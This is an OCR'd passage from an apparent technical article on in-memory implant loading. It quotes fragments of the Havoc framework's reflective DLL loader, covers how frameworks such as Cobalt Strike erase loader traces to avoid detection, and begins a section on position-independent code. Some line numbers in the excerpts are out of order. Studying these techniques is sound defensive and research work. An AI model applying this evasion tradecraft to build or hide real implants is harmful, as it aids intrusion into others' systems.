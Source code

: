```c
/* 55 */                RVA2VA( PVOID, KaynLibraryLdr, SecHeader[ i ].PointerToRawData ),    // Section Raw Data
/* 56 */                SecHeader[ i ].SizeOfRawData                                      // Section Size
/* 57 */            );
/* 58 */        }
```

2.  Image relocations are processed and memory protections are set.

```c
/* KaynLoader() @ https://raw.githubusercontent.com/HavocFramework/Havoc/9f2b14bf1e7544b6845d4ea8981d8b99dc686f4c/payloads/DllLdr/Source/Entry.c */
/* 70 */        ImageDir = & NtHeaders->OptionalHeader.DataDirectory[ IMAGE_DIRECTORY_ENTRY_BASERELOC ];
/* 71 */        if ( ImageDir->VirtualAddress )
/* 72 */            KReAllocSections( KVirtualMemory, NtHeaders->OptionalHeader.ImageBase, RVA2VA( PVOID, KVirtualMemory, ImageDir->VirtualAddress ) );
/* 73 */
/* 74 */        // ----------------------------------
/* 75 */        // 5. Set protection for each section
/* 76 */        // ----------------------------------
/* 77 */        SecMemory     = KVirtualMemory;
/* 78 */        SecMemorySize = NtHeaders->OptionalHeader.SizeOfHeaders;
/* 79 */        Protection    = PAGE_READONLY;
/* 30 */        OldProtection = 0;
/* 31 */        Instance.Win32.NtProtectVirtualMemory( NtCurrentProcess(), &SecMemory, &SecMemorySize, Protection, &OldProtection );
```

3.  The entry-point is then invoked by the loader.

```c
/* KaynLoader() @ https://raw.githubusercontent.com/HavocFramework/Havoc/9f2b14bf1e7544b6845d4ea8981d8b99dc686f4c/payloads/DllLdr/Source/Entry.c */
/* 139 */        BOOL ( WINAPI *KaynDllMain ) ( PVOID, DWORD, PVOID ) = RVA2VA( PVOID, KVirtualMemory, NtHeaders->OptionalHeader.AddressOfEntryPoint );
/* 140 */        KaynDllMain( KVirtualMemory, DLL_PROCESS_ATTACH, lpParameter );
```

However, Reflective Loading is not without its downsides. Common loading techniques such as [Stephen Fewer's ReflectiveDllInjection](https://github.com/stephenfewer/ReflectiveDLLInjection) are heavily signatured and cleanup across implementations is inconsistent. Reflective loaders and executable headers such as the DOS header/PE header and NT header on Windows often remain in memory. Some frameworks such as Cobalt-Strike have introduced features such as [Beacon User Data (BUD)](https://www.cobaltstrike.com/blog/revisiting-the-udrl-part-3-beacon-user-data) to ensure that loader allocated memory is obfuscated during sleep masking and deallocated on exit. Similarly Brute-Ratel has been erasing the DOS header/PE header and NT header by default since version 0.3.1.

However, there are alternatives.

## 3.0.0 - Position Independent Code (PIC)

Position-Independent Code (PIC) does not rely on a loader to perform its memory relocations and protections. In addition, it does note require an executable header. It is more similar to the shellcode you would expect to be produced by Metasploit as part of a software exploit (although quite a bit larger). Executing PIC is as simple as:
